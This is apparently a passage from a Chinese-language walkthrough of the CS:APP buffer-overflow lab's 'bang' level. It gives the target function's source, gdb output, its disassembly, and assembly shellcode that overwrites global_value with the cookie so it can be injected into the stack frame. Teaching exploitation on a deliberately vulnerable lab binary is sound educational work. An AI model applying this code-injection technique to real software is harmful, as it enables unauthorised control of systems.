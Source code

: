 ```C
int global_value = 0;
void bang(int val)
{
    if (global_value == cookie) {
        printf("Bang!: You set global_value to 0x%x\n", global_value);
        validate(2);
    }else
    	printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```

利用`gdb`调试工具获得`bang`的地址：

```shell
(gdb) info address bang
Symbol "bang" is at 0x8048b82 in a file compiled without debugging.
```

`bang`反汇编代码

```assembly
08048b82 <bang>:
 8048b82:	55                   	push   %ebp
 8048b83:	89 e5                	mov    %esp,%ebp
 8048b85:	83 ec 18             	sub    $0x18,%esp
 8048b88:	a1 0c e1 04 08       	mov    0x804e10c,%eax
 8048b8d:	89 c2                	mov    %eax,%edx
 8048b8f:	a1 04 e1 04 08       	mov    0x804e104,%eax
 8048b94:	39 c2                	cmp    %eax,%edx
 8048b96:	75 25                	jne    8048bbd <bang+0x3b>
 8048b98:	8b 15 0c e1 04 08    	mov    0x804e10c,%edx
 8048b9e:	b8 0c a6 04 08       	mov    $0x804a60c,%eax
 8048ba3:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048ba7:	89 04 24             	mov    %eax,(%esp)
 8048baa:	e8 81 fc ff ff       	call   8048830 <printf@plt>
 8048baf:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048bb6:	e8 73 08 00 00       	call   804942e <validate>
 8048bbb:	eb 17                	jmp    8048bd4 <bang+0x52>
 8048bbd:	8b 15 0c e1 04 08    	mov    0x804e10c,%edx
 8048bc3:	b8 31 a6 04 08       	mov    $0x804a631,%eax
 8048bc8:	89 54 24 04          	mov    %edx,0x4(%esp)
 8048bcc:	89 04 24             	mov    %eax,(%esp)
 8048bcf:	e8 5c fc ff ff       	call   8048830 <printf@plt>
 8048bd4:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048bdb:	e8 40 fd ff ff       	call   8048920 <exit@plt>
```

结合上题可以知道，`0x804e104`地址对应的数据为`cookie`，`0x804e10c`地址对应的数据为`global_value`。因为`global_value`并不在栈帧中，因此无法通过注入`cookie`值来改变它。这里需要进一步，采用编写汇编代码对`global_value`进行赋值，并将其翻译为机器码，注入栈帧。

首先编写能够修改`global_value`的汇编代码，首先先把 `cookie` 存入 `%eax` ，再把 `%eax`的值传给地址为`0x804e10c`的内存

```assembly
movl $0x20a6c142,0x804e10c
ret
```
